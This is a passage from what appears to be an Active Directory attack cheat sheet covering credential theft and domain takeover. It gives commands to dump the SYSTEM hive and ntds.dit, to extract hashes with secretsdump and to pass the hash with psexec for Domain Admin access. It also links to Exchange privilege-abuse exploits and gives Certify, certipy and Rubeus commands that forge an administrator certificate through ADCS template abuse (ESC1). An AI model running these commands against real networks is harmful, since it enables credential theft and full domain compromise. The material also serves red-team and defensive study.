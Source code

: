 ```
  
# Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive 
```
3) Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
4) Use secretsdump.py from impacket and dump the hashes.
5) Use psexec or another tool of your choice to PTH and get Domain Admin access.

#### Exchange Abuse
- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

#### ADCS
##### Recon
Windows
```
# find vulnerable templates
.\Certify.exe find /vulnerable

# find vulnerable templates for the current user
.\Certify.exe find /vulnerable /currentuser

# find templates with SAN enabled
.\Certify.exe find /enrolleeSuppliesSubject
```

Linux
```
certipy corp.local/user:password@10.10.10.10 find -vuln
```

##### ESC1-ESC2

Windows
```
# request a certificate with SAN
.\Certify.exe request /ca:corp.local\ca_name /template:template_name /altname:administrator

# convert pem to pfx
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# pass the certificate with rubeus
.\Rubeus.exe asktgt /user:Administrator /password:pass /certificate:cert.pfx /ptt /nowrap
```

Linux
```
certipy corp.local/user:password@10.10.10.10 req -ca ca_name -template template_name -alt administrator
```
##### ESC4
Make it vulnerable to ESC1!
